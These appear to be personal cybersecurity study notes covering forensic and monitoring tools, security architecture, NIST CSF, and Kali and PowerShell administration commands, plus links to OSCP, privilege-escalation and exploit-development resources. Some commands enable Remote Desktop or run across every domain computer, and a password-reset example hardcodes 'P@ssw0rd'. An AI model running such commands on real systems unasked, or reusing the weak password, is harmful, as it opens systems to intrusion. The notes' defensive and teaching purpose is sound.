==== Sharpchromium
https://www.blackhatethicalhacking.com/tools/sharp-chromium/

==== SIFT Workstation
The https://digital-forensics.sans.org/community/downloads[SIFT] Workstation is a group of free open-source incident response and forensic tools designed to perform detailed digital forensic examinations in a variety of settings. It can match any current incident response and forensic tool suite. SIFT demonstrates that advanced incident response capabilities and deep dive digital forensic techniques to intrusions can be accomplished using cutting-edge open-source tools that are freely available and frequently updated.

==== Sysmon
A windows system driver that captures events and sends them to eventlog. It can be downloaded from sysinternals website. 

. https://github.com/SwiftOnSecurity/[Swift on Security Sysmon Config file]

==== The Hive Project
https://github.com/TheHive-Project[TheHive] is a scalable 4-in-1 open source and free Security Incident Response Platform designed to make life easier for SOCs, CSIRTs, CERTs and any information security practitioner dealing with security incidents that need to be investigated and acted upon swiftly. It is the perfect companion for MISP. You can synchronize it with one or multiple MISP instances to start investigations out of MISP events. You can also export an investigation's results as a MISP event to help your peers and partners detect and react to attacks you've dealt with. Additionally, when TheHive is used in conjunction with Cortex, security analysts and researchers can easily analyze hundred of observables at once using more than 100 analyzers, contain an incident or eradicate malware thanks to Cortex responders.

==== Volatility Framework
Digital investigations had focused primarily on finding contraband within hard drive images. https://www.volatilityfoundation.org/[Volatility Foundation] introduced people to the power of analyzing the runtime state of a system using the data found in volatile storage (RAM). It also provided a cross-platform, modular, and extensible platform to encourage further work into this exciting area of research. Another major goal of the project was to encourage the collaboration, innovation, and accessibility to knowledge that had been common within the offensive software communities.

​Since that time, memory analysis has become one of the most important topics to the future of digital investigations and Volatility has become the world’s most widely used memory forensics platform. The project is supported by one of the largest and most active communities in the forensics industry. Volatility also provides a unique platform that enables cutting edge research to be immediately transitioned into the hands of digital investigators. As a result, research built on top of Volatility has appeared at the top academic conferences and Volatility has been used on some of the most critical investigations of the past decade. It has become an indispensible digital investigation tool relied upon by law enforcement, military, academia, and commercial investigators throughout the world.

Volatility development is now supported by The Volatility Foundation, an independent 501(c) (3) non-profit organization. The foundation was established to promote the use of Volatility and memory analysis within the forensics community, to defend the project's intellectual property (trademarks, licenses, etc.) and longevity, and, finally, to help advance innovative memory analysis research. Along these lines, the foundation was also formed to help protect the rights of the developers who sacrifice their time and resources to make the world’s most advanced memory forensics platform free and open source.

==== Winpmem

==== Persistence Investigations & Layered Drivers
* Layered drivers help find network sniffers, keyboard key loggers
* Triage methodology for persistence, focusing on layered drivers
* Common attacker practices:
** Redline - detects drivers and displaying information about them
** NTFS Driver - System Restore Driver should be check what is layered on top of it. It is called SR
KBD Class driver, associated with Key logging driver.

New Audit Viewer for Memoryze: https://www.fireeye.com/blog/threat-research/2008/11/new-audit-viewer-for-memoryze.html
Forensics #2 / Windows Forensics using Redline: https://attackersmindset.com/2018/05/22/forensics-2-windows-forensics-using-redline/
Redline user’s Guide: https://www.fireeye.com/content/dam/fireeye-www/services/freeware/ug-redline.pdf

==== SOF ELK

SOF-ELK® is a “big data analytics” platform focused on the typical needs of computer forensic investigators/analysts and information security operations personnel. The platform is a customized build of the open source Elastic stack, consisting of the Elasticsearch storage and search engine, Logstash ingest and enrichment system, Kibana dashboard frontend, and Elastic Beats log shipper (specifically filebeat). With a significant amount of customization and ongoing development, SOF-ELK® users can avoid the typically long and involved setup process the Elastic stack requires. Instead, they can simply download the pre-built and ready-to-use SOF-ELK® virtual appliance that consumes various source data types (numerous log types as well as NetFlow), parsing out the most critical data and visualizing it on several stock dashboards. Advanced users can build visualizations the suit their own investigative or operational requirements, optionally contributing those back to the primary code repository.

Link: https://github.com/philhagen/sof-ELK 
Training: https://youtu.be/Hk6An-LJ4jY   

==== Base64 Encoded Data
Base64 endoded data is not human readable, but it is determinsitic, similar to rot13 decoder.

. https://digital-forensics.sans.org/blog/2011/01/09/digital-forensics-finding-encoded-evidence[Finding encoded evidence]
. https://az4n6.blogspot.com/2017/10/finding-and-decoding-malicious.html[Finding and Decoding Malicious PowerShell Scripts]
. https://skorks.com/2009/08/different-types-of-encoding-schemes-a-primer/[Different Types Of Encoding Schemes – A Primer]
. https://github.com/secnonsense/decode.py[Python Decoder]

=== Network Tools

==== Security Onion
https://securityonion.net/[Security Onion] is a free and open source Linux distribution for intrusion detection, enterprise security monitoring, and log management. It includes Elasticsearch, Logstash, Kibana, Snort, Suricata, Zeek (formerly known as Bro), Wazuh, Sguil, Squert, CyberChef, NetworkMiner, and many other security tools. The easy-to-use Setup wizard allows you to build an army of distributed sensors for your enterprise in minutes!

==== Suricata
https://suricata-ids.org/[Suricata] is a free and open source, mature, fast and robust network threat detection engine.

The Suricata engine is capable of real time intrusion detection (IDS), inline intrusion prevention (IPS), network security monitoring (NSM) and offline pcap processing.

Suricata inspects the network traffic using a powerful and extensive rules and signature language, and has powerful Lua scripting support for detection of complex threats.

With standard input and output formats like YAML and JSON integrations with tools like existing SIEMs, Splunk, Logstash/Elasticsearch, Kibana, and other database become effortless.

Suricata’s fast paced community driven development focuses on security, usability and efficiency.

The Suricata project and code is owned and supported by the Open Information Security Foundation (OISF), a non-profit foundation committed to ensuring Suricata’s development and sustained success as an open source project.

==== Bro/Zeek
https://zeek.org/[Zeek] is an open source software platform that provides compact, high-fidelity transaction logs, file content, and fully customized output to analysts, from the smallest home office to the largest, fastest research and commercial networks.

Zeek helps organizations understand how their network is being used, supporting security, performance, audit, and capacity missions.

Thanks to its network optimized programming language, vibrant open source community, and global footprint, Zeek provides the data and insights needed to tackle today’s toughest network challenges, in the enterprise, cloud, and industrial computing environments.

==== RITA
https://www.blackhillsinfosec.com/projects/rita/[RITA] stands for Real Intelligence Threat Analytics.   It helps you to not look at individual TCP streams, but rather look at the communication as it relates to much larger timeframes.

RITA's specific goal in life is frequency analysis and beconing detection.  It also does black list analysis, long connection analysis. It uses median and average distribution of a mean.

==== Ntop
https://www.ntop.org/[ntop] started as an open source project in 1998 whose goal was to create a simple yet effective web-based traffic monitoring platform. Many things have changed since then, including the nature of the traffic being analyzed, operating systems running on PCs, and the type of users. ntop changed too and from a single-project centric effort, we evolved into a full fledged research company whose goal is still the original one. Namely innovate in network monitoring using commodity hardware and open-source operating systems. As we benefit from the open-source community, we feel obliged to return to the community what we develop, so that many others, and not just us, can benefit too.

The industry is full of hardware companies who bundle their products with open-source products, just to offer a sale argument for their products. Or software companies who depend on other (either hardware or software companies) for running their applications. ntop does not belong to any of these categories. We are not hardware-vendor dependent, and our software does not rely on third-party companies who might impose high license fee or decide to send us (and thus our users) out of business. We are developing both software that better exploit commodity hardware (so we’re not vendor locked) and that runs on the operating system kernel, and monitoring applications. We control the whole lifecycle, optimize every single bit, and provide you support for all our components, as we have developed them and nobody knows them better than us. This is quite rare on this market, and thus we have the ability to optimize the software for the hardware we use, and create better products. Very few other companies such as Ferrari, Ducati or Apple can do that (we’re small but we believe we belong to this club).

==== Coffee

==== Wireshark

=== Reverse Engineering

Link: https://github.com/0xZ0F/Z0FCourse_ReverseEngineering
Link: https://github.com/wtsxDev/reverse-engineering

=== References
. https://www.youtube.com/watch?v=DuIXbz30mqk[Think You're Compromised? What Do We Do Next?]

<<<
== Enterprise Architecture
Source: https://www.youtube.com/watch?v=NUD-LXUE4tM 

*Enterprise* is any organization that is large or small with a collaborative collection of sub-organizations with a shared set of objectives.

*Architecture* is a designed structure of something.  A description of the structure (components) and behaviors (Processes) of a system.  It is also an activity required to produce such a description.

*Enterprise Architecture* is documentation describing the structure and behaviour of an enterprise including its information systems.  Also a process for describing an enterprise(including its information systems), then planning and governing changes to improve the integrity and flexibility of the enterprise.

Frameworks provide guidelines on how to implement enterprise architecture.  Frameworks address following areas:
* Content (strcuture, metamodel)
* Process (activities)
* Organization (roles, people)

Some of the frameworks are:

* TOGAF (covers all three, content, process, and organization)
* Zachman (Purely covers content)
* SABSA
* DODAF
* MODAF

Large organizations are complex, hence they can be broken down into following typical domains

. Business (Why organization exisit, objectives, goals, strategic thinking, capabilities, processes, functions, organizatinal structure)
. Data
. Application(s)
. Technology

Following domains cut across the typical domains:

. Security
. Compliance


*Architecture Activities* typically when you are performing any sort of change, you have to document the current state and future state.  This represents the strategic vision of the organization, where they want to be in 3-5 years time.

Enterprise architecture is about overseeing these changes by defining various architecture principles and standards.  Architects then govern those changes to ensure that the standards and principles are being followed.

=== SABSA
SABSA is a framework that supports the business in reaching its goals.  It is the leading methodology for developing business operational risk-based architectures.  SABSA stands for Sherwood Applied Business Security Architecture.

It provides a framework for developing risk driven enterprise information security and information assurance architectures.

It also helps to deliver security infrastructure solutions that help critical business initiatives.

The SABSA methodology provides guidance for aligning architecture with business value, it also addresses a critical need for greater integration between security and enterprise architecture within organizations.

With SABASA organizations can achieve that important risk reward balance using a range of frameworks, models, methods, and process to manage risk and measure performance.

The SABSA model is the key to this and covers the whole lifecycle of operational capabilities.  The SABSA model has six layers:

. Contextual Architecture: The Business View (Business wisdom and business decision making)
. Conceptual Architecture: The Architect's vision (The 'big picture', business attributes profiel and risk objectives)
. Logical Architecture: The Designers Vision (Information, services, processes, applications)
. Physical Architecture: The builders/constructors view(Data mechanisms, infrastructure, platforms)
. Component Architecture: The Trademan's View (Products, Tools, Specific Standards, Technologies)
. Security Services Management Architecture: The Service Manager's view (Service management activities, processes and monitoring)

Each of the layers of the architecture model are supported by a vertical analysis based on six key questions

* What
* Why
* How
* Who
* Where
* When

The SABSA framework is flexible, scalable and applicable to any industry sector.  Instead of replacing other risk based standards, it can be combined with TOGAF, COBIT and ITIL to create an integrated compliance framework.

SABSA provides organization with "enterprise operational risk management architecture" that can be completely tailored to a specific business model. 

SABSA's governance model provide a control feedback loop

. Strategy & Planning
. Design
. Implement
. Management & Measure

<<<
== NIST Cyber Security Framework(CSF)

Key functions are

Identify:: involves determining your IT risks and securing the necessary budget and resources to defend your digital resources. Your decisions should be based on the contextualized threat intelligence you collect. In addition to assessing internal IT risk, this goal should include analyzing the security competence of third-party vendors and any customers with which you exchange data. It’s critical to identify those that represent an elevated risk to your organization’s systems and data. It’s also important to bring in threat intelligence on the risks your competitors face because you likely face similar threats.

Protect:: is about deploying the required security controls (technologies and processes) to defend your digital assets, and then validating that these controls align to the risks you identified. For example, controls should be applied to set up defenses against exploit kits, as well as undisclosed zero-day and embargoed vulnerabilities, as identified by your threat intelligence platform. You also need to safeguard against the exploitation of high-risk vulnerabilities in your technology stack.

Detect:: revolves around your ability to block attacks before they impact digital assets. Threat intelligence helps by enabling you to identify and research the evolution and trends of malware families with high risk to your organization. In addition to identifying the security patches to apply, you will also gain intelligence on which systems are most susceptible and which are being actively targeted and exploited.

Respond:: refers to how fast your security team reacts to breaches; even the strongest security postures do not offer a 100% guarantee that cyberattacks will not succeed. Threat intelligence assists in the response process by evaluating the data exposure and the digital asset damage your organization is facing. This can then be reported to all affected parties and stakeholders — not only for remediation teams, but also for non-technical personnel who may need to prepare for the impact on day-to-day operations and the potential impact on vendors, clients, and perhaps even the overall market in which you operate.

Recover:: is all about how quickly the damage inflicted upon the organization’s technology stack and surrounding ecosystem can be mitigated, including any and all operations that must be restored as the security incidents are being closed out. Threat intelligence helps pinpoint the specific measures the security team should take in order to quarantine infected systems and inoculate the malicious elements coursing through the environment. The ultimate goal in the case of a breach, of course, is to quickly and safely restore the digital assets back to fully functioning systems with all security measures intact.

Top two are proactive measures, and bottom three are reactive measures.

<<<
== Security Architecture

=== Network Architecture

=== Application Architecture

=== System Architecture

<<<
== Dev, Sec, Ops

Development, Operations, and Security operate as silos. 

*CiCd* or Continuous Integration and Continuous Delivery is key for *DevSecOps*

image::knowyourapplication.png[title="Know your application"]

Some activities to consider for DevSecOps:

* Threat Modeling
* Attack Surface Evaluation
* Static & dynamic code analysis
* Penetration Testing
* Security Code Reviews
* Fuzz Testing

Teams who are considering DevSecOps should think about:

* Frameworks & Tools
* Automating core security tasks
* Embedding securit controls and processes

Five principles for Securing DevOps

* Automate Security In
* Integration to fail quickly
* No false Alarm
* Build Security Champions
* Keep Operational Visibility



=== OWASP Top 10 App Sec Risks

. Injection
. Broken Authentication
. Sensitive Data Exposure
. XML External Exposures (XXE)
. Broken Access Control
. Security Misconfiguration
. Cross Site Scripting
. Insecure Deserialization
. Using component with known vulnerabilities
. Insufficient Logging/Monitoring

=== Real-Word Top 10 Attacks

. Direct Object Reference
. Forceful Browsing
. Null Byte Attack
. Command Injection
. Feature Abuse
. Evasion Techniques
. Subdomin Takeover
. Misconfiguration
. Cross Site Scription
. SQL Injection 

<<<
== Governance, Risk, & Compliance

A documented process must be followed to ensure compliance to security policy and to highlight risks that might be introduced when security policy requirements are not adhered to.  Some of the GRC functions are:

* Enterprise Risk Management
* IT Risk Management
* Integrated Risk Management
* Operational Risk Management
* Compliance
* Enterprise GRC Management
* Vendor/Third-Party Risk Management
* Business Continuity
* Financial Audit

=== Enterprise Risk Management

* Not necessarily covered by insurance
* Multi-dimensional assessment
* Analyzes material risks and how they relate
* Spans the entire organization ("holistic")
* Proactive & continuous
* Considers both upside and downside
* Focuses on business goals, adding value and more
* Embedded in culture and mindset 

<<<
== Kali Reference

. Add user and give root privs
.. login as root and the user

	useradd -m <username>

.. Assign a password to the user

	passwd <username>

.. Add a user to sudoers file

	usermod -a -G sudo <username>

.. Change user shell to bash

	chsh -s /bin/bash <username>

. Shrink partition
.. Login to your system as root and open a terminal window.  Lets assume the paritition is /dev/xxx/yyy and is currently 40G, and you want to reduce it to 30G

	df -k
	unmount /dev/xxx/yyy
	e2fsck -fy /dev/xxx/yyy
	resize2fs /dev/xxx/yyy 30G
	lvreduce -L 30G /dev/xxx/yyy
	resize2fs /dev/xxx/yyy
	mount /dev/xxx/yyy

. Expand partition

Lets assume the file system is /dev/xxx/yyy. Current size is 10G and you want to add another 10G
.. Show space in current Volume group, look for Free PE/Size and make note of it, in our case it

	vgdisplay

.. Extend the logical volume

	lvextend -L+10G /dev/xxx/yyy

.. Resize the filesystem

	resize2fs /dev/xxx/yyy

<<<
== Business Resilience
For a business to be sustainable it has to be able to bear any hardship it faces.  These hardships or risks can be financial, environmental, labor, suppliers, intellectual property , and technical.  Hence every business has to ensure it has documented plans on how to address the risks and become resilient.

In order for a business to be resilient, it has to ensure it follows Business Continuity Management(BCM) strategies and methodologies. BCM itself can be split into two general areas Business Continuity and Disaster Recovery.

=== Business Continuity
Some of the strategies and methodologies that a business implements are directly associated to 

==== Conference Call Guidelines
. Use a pre-conferencing/green room/waiting room (This is already configured for Teams Meetings)
. Don't re-use conference access codes (This is already configured for Teams Meetings)
. Don't record the meeting unless necessary
. Do a role call to ensure only invited attendees are on the call
. Before sharing your screen ensure you close all confidential files/applications
. If it is a sensitive meeting, and you record it, ensure the recording is encrypted and stored in a location with limited user access
. If the recording is saved on the web platform ensure you download the recording and delete it from the web platform

*References*
. NIST Guidance: https://www.nist.gov/system/files/documents/2020/03/17/Conference%20Call%20Security%20Graphic.pdf

==== Remote Working Guidelines
*Employees*

. Greet your team members using TEAMS chat feature
. Use camera when in meetings
. When in doubt call the team member
. Keep the team connected using Teams Chat and other means as per team norms.
. Over communicate
. Lock your computer when you walk away from your computer  (Windows Key + L)
. Inform you team if you are going to be away from your computer for an extended period
. Avoid multitasking

*Leader*

. Establish team norms:
.. Do we meet more frequently as a team? When? How long?
.. If we use an online meeting platform, does everyone turn on their video camera?
.. How do we ensure people are present and not multitasking?
.. What is the recommended response time to a text or email? Should we use the phone more?
.. How will we share sensitive information? Email? 
. Ensure your team knows what is the best method to contact you
. Conduct Morning Huddles
. Frequent Check-ins
. Use Teams to share for quick feedback

*References*

. https://www.forbes.com/sites/danpontefract/2020/03/01/in-the-wake-of-coronavirus-heres-how-to-lead-remote-employees/#1d44ec7152a4
. https://www.timedoctor.com/blog/run-a-remote-team/
	


=== Disaster Recovery


<<<
== Powershell Reference

. https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html[Powershell Logging]
. https://github.com/PowerShell[Powershell 7]
. http://shop.oreilly.com/product/0636920024132.do[Windows Powershell Cookbook]
. https://www.youtube.com/watch?v=plqpmZruOYk[Complete Powershell in one video-beginner to professional powershell scripting]
. https://adamtheautomator.com/get-adobject/[Get-adobject]
. https://lazywinadmin.com/[Lazy Windows Administrator]
. https://www.windowscentral.com/how-create-and-run-your-first-powershell-script-file-windows-10[How to create and run a PowerShell script file on Windows 10]
. https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/command-line-process-auditing[Command Line Process Auditing]
. Configure IP Address on a computer

	New-NetIPAddress -InterfaceAlias Ethernet -IPAddress 10.10.10.10 -PrefixLength 24 -DefaultGateway 10.10.10.1

. Configure DNS on a computer

	Set-DNSClientServerAddress -InterfaceAlias "Ethernet" -ServerAddress 172.16.0.10

. IP v6 - Current Status

	Get-NetAdapterBinding -ComponentID ‘ms_tcpip6’

. IP v6 - Disable 
	
	Get-NetAdapterBinding -ComponentID ‘ms_tcpip6’ | Disable-NetAdapterBinding -ComponentID ‘ms_tcpip6’ -PassThru

. Rename computer

	Rename-Computer <new name>

. Restart computer

	Restart-Computer

. Shutdown computer

	Shutdown-Computer

. Set log application, system, and security log files to 100MB and roll over after 21 days

	limit-eventlog -logname "application" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 
	limit-eventlog -logname "security" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 
	limit-eventlog -logname "system" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 

. Enable Remote Desktop

	set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0

. Add firewall rules to allow Remote Desktop traffic

	Enable-NetFirewallRule -DisplayGroup “Remote Desktop”

. Check for updates and install updates

	get-hotfix|grid-view
	Install-Module -Name PSWindowsUpdate
	Get-Package -Name PSWindowsUpdate
	Install-WindowsUpdate -MicrosoftUpdate -AcceptAll -AutoReboot

. Set Date & Timezone

	set-date "1/1/2020 10:10 PM"
	(get-WmiObject win32_timezone).caption
	TZUTIL /s "Eastern Standard Time"

. Add a first domain controller

	Install-windowsfeature -name AD-Domain-Services -IncludeManagementTools
	Get-Command -Module ADDSDeployment
	Create Root Domain: Install-ADDSForest -DomainName “corp.momco.com”

. Add DNS Primary Zone

	Add-DnsServerPrimaryZone -NetworkID 192.168.64.0/24 -ZoneFile “192.168.64.2.in-addr.arpa.dns”
	Add-DnsServerForwarder -IPAddress 8.8.8.8 -PassThru

. Confirm DNS is working

	Test-DnsServer -IPAddress 192.168.64.2 -ZoneName "corp.momco.com"

. Add computer to a domain

	Add-Computer -DomainName <domain name>

. Add a second domain controller 

	Add-WindowsFeature AD-Domain-Services
	Install-ADDSDomainController -InstallDns -Credential (Get-Credential "CORP\Administrator") -DomainName "corp.contoso.com"

. Locate FSMO Roles

	Get-ADForest DOMAINNAME | FT SchemaMaster
	Get-ADForest DOMAINNAME | FT DomainNamingMaster
	Get-ADDomain DOMAINNAME | FT PDCEmulator
	Get-ADDomain DOMAINNAME | FT InfrastructureMaster
	Get-ADDomain DOMAINNAME | FT RIDMaster

. Add FSMO Role to a new computer

	Move-ADDirectoryServerOperationMasterRols - Identity NEW-DC -OperationMasterRole RIDMaster,InfrastrcutureMaster,DomainNamingMaster -Force

. List all accounts where password is not set to expire

	Search-ADAccount -PasswordNeverExpires | out-gridview

. List all accounts not used in last 90 days & Export to CSV

	Import-Module ActiveDirectory
	Search-ADAccount –AccountInactive -TimeSpan 90.00:00:00 -UsersOnly | Select -Property Name,DistinguishedName,LastLogonDate |	Export-CSV "C:\\InactiveADUsers.csv" -NoTypeInformation -Encoding UTF8

. Create a VM

	New-VM -MemoryStartupBytes 2048MB -Name VMNAME -path "d:\folder" -VHDPath "d:\folder\name.vhdx"

. Assign VM Network

	Get-VM -Name VMNAME | Get-VMNetworkAdapter | Connect-VMNetworkAdapter -Swtichname 'SWITCHNAME'

. Checkpoint a VM

	Get-VM | Checkpoint-VM

. Ping alternate

	Test-NetConnection
	Test-NetConnection 8.8.8.8

. Traceroute alternative

	Test-NetConnection www.bing.com -traceroute

. Telnet to a port

	Test-NetConnection www.bing.com -Port 80
	Test-NetConnection smtp.com -Port 25

. View All services in a GUI

	Get-Service | Out-Gridview

. Service management

	Stop-Service <service name>
	Start-Service <service name>
	Restart-Service <service name>
	Set-Service <service name> <-Change Service properties

. Enable/Disable Firewall

	set-netfirewallprofile -profile domain,public,private -enabled true/false

. Add a firewall rule

	New-NetFirewallRule -DisplayName "Allow Inbound Port80" -Direction Inbound -LocalPort 80 -Protocol TCP -Action Allow
	New-NetFirewallRule -DisplayName "Block Outbound Port80" -Direction Outbound -LocalPort 80 -Protocol TCP -Action Block

. Password Reset

	$newpwd = ConvertTo-SecureString -String "P@ssw0rd" -AsPlainText -Force
	Set-ADAccountPassword ACCOUNTNAME -NewPassword $newpwd -Reset
	Set-ADAccountPassword ACCOUNTNAME -NewPassword $newpwd -Reset -PassThru | Set-ADuser -ChangePasswordAtlogon $True

. Install RSAT Tools:

	Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online
	or
	ADD-WindowsFeature RSAT-Role-Tools

. Change color of error text:

	$host.PrivateData.ErrorForegroundcolor = 'green'

. Help for all commandlets with service in the name:  
	
	help *service*

. Update help with latest modifications from Microsoft:

	Update-Help

. Show all help about a commandlet:
	
	Help <cmdlet> -full

. Show online help about a commandlet:
	
	Help <cmdlet> -online

. To show a gui for a cmdlet:
	
	Show-command <cmdlet>

. Show event log settings:
	
	get-eventlog -list

. Show top ten biggest processes:

	Get-process| sort-object -property pm -descending | select-object -first 10

. Get all objects in a cmdlet:
	
	Get-service|get-member

. Show services that are running:
	
	Get-service| where-object -FilterScript { $_.Status -eq 'Running'}

. Gsv is alias for get-service
. ? Is alias for where
. Find out what cmdlet an alias is:

	Help gsv or get-alias gsv

. List all alias:

	Gal

. The Get-PSProvider cmdlet gets the Windows PowerShell providers in the current session. You can get a particular drive or all drives in the session. Windows PowerShell providers let you access a variety of data stores as though they were file system drives. The Get-PSDrive cmdlet gets the drives in the current session. You can get a particular drive or all drives in the session. This cmdlet gets the following types of drives:
.. Windows logical drives on the computer, including drives mapped to network shares.
.. Drives exposed by Windows PowerShell providers (such as the Certificate:, Function:, and Alias: drives) and the HKLM: and HKCU: drives that are exposed by the Windows PowerShell Registry provider.
.. Session-specified temporary drives and persistent mapped network drives that you create by using the New-PSDrive cmdlet.
Beginning in Windows PowerShell 3.0, the Persist parameter of the New-PSDrive cmdlet can create mapped network drives that are saved on the local computer and are available in other sessions. For more information, see New-PSDrive. Also, beginning in Windows PowerShell 3.0, when an external drive is connected to the computer, Windows PowerShell automatically adds a PSDrive to the file system that represents the new drive. You do not need to restart Windows PowerShell. Similarly, when an external drive is disconnected from the computer, Windows PowerShell automatically deletes the PSDrive that represents the removed drive.

. Show contents of a file:

	Get-content or gc

. List modules available:

	Get-module -List Available

. To import a module: 
	
	import-module <modulename>

. To list all commands available in a module: 
	
	get-command -module <modulename>

. Add roles & Features

	Install-WindowsFeature -IncludeAllSubfeature -IncludeManagementTools File-Services

. Install .Net Framework

	Install-WindowsFeature Net-Framework-Core -source d:\sources\sxs

. Repair trust relationship of a computer

	test-computersecurechannel -credential domain\admin -Repair

. To list all computers in AD:

	get-adcomputer -filter *|select -ExpandProperty name

. List services running on all computers in your domain:

	invoke-command -ComputerName (get-adcomputer -filter *|select -ExpandProperty name) -scriptblock { get-service }

. Implicit Remoting:

	Establish a session with remote computer: $session = New-PSSession -ComputerName ABCD
	Invoke-Command -Session $session -ScriptBlock { import-module activedirectory }
	Import-PSSession -Session $session -Module ActiveDirectory
	Close session: get-PSSession | remove-PSSession

. Invoke a powershell session on a remote computer:

	Enter-PSSession -ComputerName ABCD

. Invoke Troubleshooting pack:

	import-module troubleshootingpack
	get-troubleshootingpack c:\windows\diagnostics\system\Networking
	get-troubleshootingpack c:\windows\diagnostics\system\Networking| Invoke-TroubleshootingPack

. Replacement for ipconfig /all

	get-NetIPConfiguration

. Find out network adapter names and statistics

	get-NetAdapter
	get-NetAdapterStatistics

<<<
== Github Reference

=== Adding a new repository to github.com

* On the github.com page, click on 

image::github1.png[]
* Select "New Repository" 

image::github2.png[]
* Provide repository name in the provided field 

image::github3.png[]
* Click to create repository 

image::github4.png[] 
* Follow instructions on the page displayed on you local computer which has ssh access to github.

=== Creating a local folder on your computer

* Change Directory to the root folder where you want the GIT repository to be stored
* Clone the respository

	git clone <repository URL from git page>

=== What to do after renaming your github username?
After you have changed your github.com user name, you will have to relink all your local github repositories to the github on the web.  Here are the steps:

. Open GitCMD or GitBASH
. Change directory to the repository where you have cloned the respository from the web
. Check where does this repository points:

	git remote -v

image::github-repo-now.png[]
. Change to new github repository

	git remote set-url origin git@github.com:secprivrisk/CyberSecurity.git

. Confirm the change by issuing the command:

	git remote -v

image::github-repo-new.png[]
<<<
== Cheat Sheets
. https://www.malwarearchaeology.com/cheat-sheets[Cheat Sheets to help you in configuring your systems]
. https://cheatography.com/tag/ir/[IR Cheat Sheets]
. https://digital-forensics.sans.org/community/cheat-sheets[SANS DFIR Community: Cheat Sheets]
. https://zeltser.com/cheat-sheets[IT and Information Security Cheat Sheets]
. https://www.sans.org/blog/4-cheat-sheets-for-malware-analysis/[4 Cheat Sheets for Malware Analysis]
. https://www.andreafortuna.org/2017/07/03/volatility-my-own-cheatsheet-part-2-processes-and-dlls/[Volatility Cheatsheet]


<<<
== Ethical Hacking References

=== By Mayur Parmar
Want resource for OSCP?
here is the material to clear OSCP.
All the best for your journey.
How to prepare for OSCP complete guide 

Below are 5 skills which you have to improve before registering for OSCP
> Learn basic of Computer Network, Web application, and Linux
> Learn Bash and Python scripting
> Enumeration is key in OSCP lab, I repeat Enumeration is key in OSCP Lab and in real world too
> Download vulnerable VM machines from vulnhub
> Buffer Overflow (BOF) exploitation

Below are the free reference before registration of OSCP 
> https://lnkd.in/fBcwnBF
> https://lnkd.in/fXtRZK5
> https://lnkd.in/fcHg29E
> https://lnkd.in/f2-wBQJ
> https://lnkd.in/fkFNATW

Below are the reference for Buffer overflow and exploit developmet for OSCP
> https://lnkd.in/fmmU_Uz
> https://lnkd.in/fZDh9Vd

For Bash Scripting 
> https://lnkd.in/fn2wpZ5

Transferring Files from Linux to Windows & post-exploitation
> https://lnkd.in/fSJ44Eb
> https://lnkd.in/fJUGq3s

Privilege Escalation:
> https://lnkd.in/f4jsZfa
> https://lnkd.in/fFAeE3g
> https://lnkd.in/fUx6HZQ
> https://lnkd.in/fDNJGHw
> https://lnkd.in/fqPJzMP
> https://lnkd.in/fixKjR6
> https://lnkd.in/f2Nz3_a
> https://lnkd.in/fpZcJT9


Some tips and tricks for OSCP Exam & write-ups.
https://lnkd.in/fWugM5F
https://lnkd.in/fs_dDJr
https://lnkd.in/fzh5M_V
https://lnkd.in/fV3m55b
https://lnkd.in/faWFaea
https://lnkd.in/fiFGmV9
https://lnkd.in/fShfYRe
https://lnkd.in/f9mKEgu
https://lnkd.in/fjuxWZ5
https://lnkd.in/ffett24
https://lnkd.in/fivVvaz
https://lnkd.in/f973szJ
https://lnkd.in/f8ec7z5



=== By Pethuraj M

Following references were posted on LinkedIn by https://www.pethuraj.in https://www.pethuraj.com 

• 𝗔𝘄𝗲𝘀𝗼𝗺𝗲 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀 𝗙𝗼𝗿 𝗟𝗲𝗮𝗿𝗻𝗶𝗻𝗴 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 & 𝗣𝗲𝗻𝘁𝗲𝘀𝘁𝗶𝗻𝗴
http://tiny.cc/s5Ig

• 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀-𝗳𝗼𝗿-𝗹𝗲𝗮𝗿𝗻𝗶𝗻𝗴-𝗛𝗮𝗰𝗸𝗶𝗻𝗴
http://tiny.cc/7OiG

• 𝗘𝘁𝗵𝗶𝗰𝗮𝗹 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 & 𝗖𝘆𝗯𝗲𝗿 𝘀𝗲𝗰𝘂𝗿𝗶𝘁𝘆 𝗕𝗶𝗯𝗹𝗲
http://tiny.cc/0wGg

• 𝗖𝘆𝗯𝗲𝗿 𝗦𝗲𝗰𝘂𝗿𝗶𝘁𝘆 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀
http://tiny.cc/m6Ig

• 𝗔𝘄𝗲𝘀𝗼𝗺𝗲 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀
http://tiny.cc/pqJg

• 𝗲𝘁𝗵𝗶𝗰𝗮𝗹-𝗵𝗮𝗰𝗸𝗶𝗻𝗴-𝗿𝗲𝗽𝗼𝘀𝗶𝘁𝗼𝗿𝘆
http://tiny.cc/IqYg

• 𝗙𝗿𝗲𝗲 𝗘𝘁𝗵𝗶𝗰𝗮𝗹 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 𝗲𝗕𝗼𝗼𝗸𝘀
http://tiny.cc/b6Rg


#cybersecurity #hackerone #bugcrowd #wapt #pentest #security #hacking #pentesting #bugbounty #owasp #burpsuite #ceh #oscp #ethicalhacking #infosec

== Terms Used
[horizontal]
ATT&CK:: Adversatial Tactics Techniques & Common Knowledge
APT:: Advanced Persistent Threat
CTF:: Capture The Flag
CTI:: Cyber Threat Intelligence
EDR:: Endpoint Detection and Response
ICS:: Industrial Conrol Systems
IOC:: Indicators of Compromise
LLMNR:: Link Local Multicast Name Resolution
Med-jacking:: is a new kind of cybersecurity threat to health care systems. Medjacking involves hacking into medical devices using backdoors to access software on the device.
mDNS:: Multicast Domain Name System
MDR:: Managed Detection and Response
MSSP:: Managed Security Services Provider
OCG:: Organized Criminal groups
OSINT:: Open Source Inteligence Tools: Gathering odata from open source or readily and freely available sources
PLC:: Programmagle Logic controller
